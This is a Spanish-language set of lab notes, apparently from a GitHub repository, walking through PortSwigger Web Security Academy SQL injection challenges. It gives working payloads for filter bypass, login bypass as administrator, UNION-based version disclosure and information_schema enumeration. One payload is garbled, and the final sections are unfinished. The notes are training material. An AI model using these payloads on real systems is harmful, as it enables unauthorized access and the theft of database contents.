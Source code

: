 # Inyecciones SQL

## cheatsheet


## Laboratorios

### Reto 1

Este laboratorio presenta una vulnerabilidad de inyección SQL en el filtro de categorías de productos. Cuando el usuario selecciona una categoría, la aplicación ejecuta una consulta SQL como la siguiente:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

Para resolver el laboratorio, realice un ataque de inyección SQL que haga que la aplicación muestre uno o más productos no lanzados.

En la url podemos emplear una vulnerabilidad típica usando las comillas y comentando lo siguiente de esta forma podemos hacerlo:

```bash
https://web-security-academy.net/filter?category=Pets
```
Para explotarla podemos usar `test' or 1=1-- -` donde 1=1 siempre se va a dar  y los guiones posteriores sirven para comentar lo que viene siguiente

```bash
https://web-security-academy.net/filter?category=Pets' or 1=1-- -
```

Obtenemos todos los procutos esten o no lanzados. si quisieramos solo ver los que no estan lanzados , tendriamos que usar esta sentencia:

```bash
https://web-security-academy.net/filter?category=Pets' or released=0-- -
```


### Reto 2

Este laboratorio contiene una vulnerabilidad de inyección SQL en la función de inicio de sesión.

Para resolver el laboratorio, realice un ataque de inyección SQL que inicie sesión en la aplicación como administrator usuario.

Para resolver este reto , he realizado un ataque parecido al reto anterior en un panel de login para ello he utilizado lo siguiente:

```bash
User: administrator
passwd: test' or 1=1-- -
```

De esta manera hacemos un bypass del login.

### Reto 3 Ataque de inyección SQL, consultando el tipo y la versión de la base de datos en Oracle

Este laboratorio presenta una vulnerabilidad de inyección SQL en el filtro de categorías de productos. Se puede usar un ataque UNION para recuperar los resultados de una consulta inyectada.

Para resolver el laboratorio, muestre la cadena de versión de la base de datos,  es importante destacar que las sentencias de SQL son distintas para cada base de datos.

Para lograrlo:

- Se intercepta la solicitud que filtra los productos por categoría y se modifica el parámetro ‘category’ hay que tener en cuenta que para extraer datos no nos vale lo anterior que muestra todo.

- Primero se determina cuántas columnas devuelve la consulta y cuáles aceptan datos de tipo texto podemos usar ORDER BY e ir probando en nuestro caso son dos columnas. 
```
https://web-security-academy.net/filter?category=Pet' order by 2-- -
```

Esto es necesario para que el ataque UNION funcione correctamente, la letras a y b se deberian de mostrar en alguna parte de la página, la tabla `dual` es una tabla especial que tiene oracle de una fila y columna
 para hacer cálculos.

```
https://web-security-academy.net/filter?category=Pets' union select 'a','b' from dual-- -
```

- Una vez identificadas las columnas, se utiliza una inyección que consulta la tabla ‘v$version’, propia de Oracle, para obtener el valor del campo ‘BANNER’, que contiene información sobre la versión de la base de datos.

- Ejemplo de oracle
```
https://web-security-academy.net/filter?category=Pets' union select 'a',banner from v$version-- -
```

- Ejemplo de MySQL y Microsoft

```
https://web-security-academy.net/filter?category=Pets' union select 'a',@@version-- -
```

Otros ejemplos: 

- Extraer las bases de datos que hay en MYSQL

```
https://web-security-academy.net/filter?category=Pets' union select 'a',union select 'a',schema_name from information_schema.schemata-- -
```

Enumerararlas usando `group_concat()`para concatenar todos los nombres en una sola fila y poder verlos todos juntos

```
https://web-security-academy.net/filter?category=' union select NULL,group_concat(schema_name) from information_schema.schemata-- -
```

- Enumeramos todas las tablas de todas las bases de datos

```
https://web-security-academy.net/filter?category=' union select NULL,table_name from information_schema.tables-- -
```

- Enumeramos las tablas de una base de datos en específico por ejemplo 'academy_labs'

```
https://web-security-academy.net/filter?category=' union select NULL,table_name from information_schema.tables where table_schema='academy_labs'-- -
```

### Reto 4: ataque de inyección SQL, que enumera el contenido de la base de datos en bases de datos que no son de Oracle

Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de producto. Los resultados de la consulta se devuelven en la respuesta de la aplicación para que pueda utilizar un ataque UNION para recuperar datos de otras tablas.

La aplicación tiene una función de inicio de sesión y la base de datos contiene una tabla que contiene nombres de usuario y contraseñas. Debe determinar el nombre de esta tabla y las columnas que contiene, luego recuperar el contenido de la tabla para obtener el nombre de usuario y la contraseña de todos los usuarios.

Para resolver el laboratorio, inicie sesión como administrador usuario.

## ¿Qué es una SQLI ?


